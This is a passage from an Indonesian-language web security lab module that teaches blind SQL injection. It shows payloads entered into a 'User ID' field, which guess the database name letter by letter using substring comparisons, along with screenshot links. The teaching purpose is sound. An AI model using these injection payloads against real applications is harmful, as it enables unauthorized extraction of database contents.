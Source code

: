    * Kita ingin mengetahui kata pertama dari data di database itu. Bisa dengan cara modifikasi pada inputan `User ID`, seperti ini:

     > 1' and (select substring(database(), 1, 1))="a" -- -'      
 
         Maka hasilnya:    
         ![SQLB4](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/SQLB4.png?raw=true)

     > Lalu saat kita ubah jadi huruf lain, dengan:  
         1' and (select substring(database(), 1, 1))="d" -- -'    
         ![SQLB5](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/SQLB5.png?raw=true) 
         Maka hasilnya:    
            ![SQLB6](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/SQLB6.png?raw=true) 
         Artinya: kata pertama dari id=1 pada database adalah `d`  
    * Kita ingin mengetahui kata kedua dari data di database. Bisa dengan cara modifikasi pada inputan `User ID`, seperti ini:   
      > 1' and (select substring(database(), 2, 1))="a" -- -'  
          ![SQLB7](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/SQLB7.png?raw=true) 